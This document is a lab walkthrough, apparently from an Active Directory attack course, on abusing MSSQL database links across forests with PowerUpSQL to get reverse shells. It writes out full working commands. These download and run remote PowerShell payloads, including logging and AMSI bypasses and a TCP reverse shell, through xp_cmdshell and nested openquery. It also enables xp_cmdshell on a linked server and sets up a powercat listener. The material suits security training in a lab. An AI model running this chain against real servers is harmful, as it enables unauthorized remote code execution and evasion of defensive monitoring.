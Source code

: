 # Hands-on 26: Cross Forest Attacks - MSSQL Servers

- [Hands-on 26: Cross Forest Attacks - MSSQL Servers](#hands-on-26-cross-forest-attacks---mssql-servers)
  - [Tasks](#tasks)
  - [Enumeration](#enumeration)
  - [Reverse shell from DB-SQLPROD](#reverse-shell-from-db-sqlprod)
  - [Reverse shell from DB-SQLSRV](#reverse-shell-from-db-sqlsrv)

---

## Tasks

Get a reverse shell on a `db-sqlsrv` in `db.local` forest by abusing database links from `us-mssql`.

<br/>

---

## Enumeration

Import `PowerUpSQL.ps1` using InviShell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\PowerUpSQL-master\PowerUpSQL.ps1
```

![picture 17](images/364cb35bfb53920774829881908b441c299842f4cf0a9e9e9a38c7d1cf582a01.png)  


<br/>

Then enumerate MSSQL instances:

```
Get-SQLInstanceDomain
```

![picture 18](images/5f5c7e96032310285767e197619a57c808928f5e337bfa5484224df16f8b4746.png)  

- MSSQL instance: `us-mssql.us.techcorp.local`

<br/>

Then check if we can access `us-mssql`:

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

![picture 19](images/9e3da9bc565682f677bf58504a3c0f368c7929dad00018d4dbd07a3ea629518e.png)  

- The current user can access `us-mssql`

<br/>

Enumerate more information about the MSSQL service:

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

![picture 20](images/bc42ceedc2ceab48f82c893e6e117ac0365860984aa579e3aba310271622081e.png)  

<br/>

Look for Database Link of `us-mssql`:

```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

![picture 21](images/62bf01de915a85ce9a03bd798126f4f9f7b99b9449e1852595939f17c3c8c3c4.png)  

- `us-mssql` has remote link on `192.168.23.25`

<br/>

Try to crawl the database link:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```

![picture 22](images/9c76386ec464029d01ba5a9b6f3c976335f11dcd2d4b163261cc7085426142ac.png)  

- We can execute command on `db-sqlsrv` from US-MSSQL -> 192.168.23.25 -> DB-SQLSRV

<br/>

Try to remotely execute command on the SQL servers:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami && hostname'''
```

![picture 1](images/d4039a30f17a9b737cbb643b1bbf631401821efdbf128163bb039816ec8dca1d.png)  

- Command executed on **DB-SQLPROD** (`192.168.23.25`)
- However, the SQL user on **DB-SQLSRV** is `sa` - it is supposed to be able to execute command. Likely `xp_cmdshell` is not enabled.

<br/>

---

## Reverse shell from DB-SQLPROD

Locally serve tools:

```
cd C:\AD\Tools; python -m SimpleHTTPServer 80
```

Launch a powercat listener:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\powercat.ps1; powercat -l -v -p 443 -t 1000
```

Use `Get-SQLServerLinkCrawl` to get a reverse shell from **DB-SQLPROD**:

- `sbloggingbypass.txt` bypasses PowerShell logging
- `amsibypass.txt` bypasses AMSI
- `Invoke-POwerShellTcpEx.ps1`

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.64/sbloggingbypass.txt); iex (iwr -UseBasicParsing http://192.168.100.64/amsibypass.txt); iex (iwr -UseBasicParsing http://192.168.100.64/Invoke-PowerShellTcpEx.ps1)"'''
```

![picture 2](images/950b86594643e9d3f750fa8d3272ef8e436b72c5991cc4ba147f3e9f1bba5d1d.png)  

<br/>

Enable `xp_cmdshell` on `db-sqlsrv` via `db-sqlprod` using `Invoke-SqlCmd`:

```
Invoke-SqlCmd -Query "execute ('sp_configure ''show advanced options'', 1; reconfigure;') AT ""db-sqlsrv"""
```

```
Invoke-SqlCmd -Query "execute ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""db-sqlsrv"""
```

![picture 3](images/d8ef1cc0efb2c289a4609267b73924f80987d3842ab13c970e26e82fda238e60.png)  

<br/>

Then on the local machine, try to use `Get-SQLServerLinkCrawl` to remotely run commands using `xp_cmdshell` again:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami && hostname'''
```

![picture 4](images/d7839a8e98888e6dea23fb80e868fdb1f262dabea2eecdedff8d4cfa133070ca.png)  

<br/>

---

## Reverse shell from DB-SQLSRV

Use **heidisql.exe** to connect to `us-mssql`:

![picture 23](images/cfe22e441fed78154d6daffc58bc63975d70721b67d6b6465c3c4bdbc1a49b8c.png)  

```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.64/Invoke-PowerShellTcpEx.ps1'''')"'')');
```

![picture 5](images/2deab8b5c56d8502c737562775481a4c8486f3289713b6652ce5d573ccbc1331.png)  

Note:
`select @@version;` has to be there or otherwise it fails

![picture 6](images/ca9bc0ff4dc4f55e3a4ba529aff2d14c36c093f0f3dea853c69bb1839dd466b6.png)  

---